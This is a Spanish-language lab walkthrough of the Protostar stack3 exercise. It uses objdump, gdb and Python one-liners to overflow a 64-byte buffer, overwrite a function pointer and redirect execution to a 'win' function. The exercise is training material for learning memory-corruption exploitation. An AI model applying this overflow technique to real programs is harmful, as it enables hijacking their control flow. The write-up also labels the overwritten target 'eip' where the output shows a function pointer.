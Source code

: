 ---------------------------------------------------------------------------
# Sobreescribir un puntero de instrucción -> [stack3](https://exploit.education/protostar/stack-one/)

Aquí tenemos que modificar el registro "eip" el cual contiene la dirección de la siguiente insutrucción que el programa va a ejecutar. 
Hay que mandarlo en concreto a la funcion "win"

```console
[user@protostar]-[/opt/protostar/bin]:$ objdump -d ./stack3 | grep "win"
08048424 <win>
```
En el codigo de gdb *disas main* no hay ninguna llamada a esta función de por si. El eip apunta a la insutrccion de nuestros breakpoints 
ya que esta todavia no se ha ejecutado.

```console
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack3
(gdb) b *0x08048477 -> 0x08048477 <main+63>:	leave
(gdb) r
AAAA
Breakpoint alcanzado
(gdb) i r
eip            0x8048477	0x8048477 <main+63>


[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64)" | ./stack3
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64 + 'B'*4)" | ./stack3
calling function pointer, jumping to 0x42424242
Segmentation fault
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64 + 'B'*4)"  > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack3
(gdb) b *0x08048477 
(gdb) run < /tmp/pattern
(gdb) x/40wx $esp
0xbffff63c:	0x08048477	0x08048560	0x41414141	0xb7fff8f8
0xbffff64c:	0xb7f0186e	0xb7fd7ff4	0xb7ec6165	0xbffff668
0xbffff65c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff66c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff67c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff68c:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff69c:	0x42424242	0x08048400	0x00000000	0xbffff728
(gdb) x/x $eip -> El eip esta justo despues del buffer en este caso, en "0xbffff69c"
0x41414141:	Cannot access memory at address 0x41414141
```
En vez de meterle "AAAA" al eip hay que meterle la direccion de una función real, en concreto la de "win" que es: 08048424 o "\x24\x84\x04\x08"

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64 + '\x24\x84\x04\x08')" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
Con python se puede meter la memoria sin tener que darle la vuelta gracias al módulo "struct"
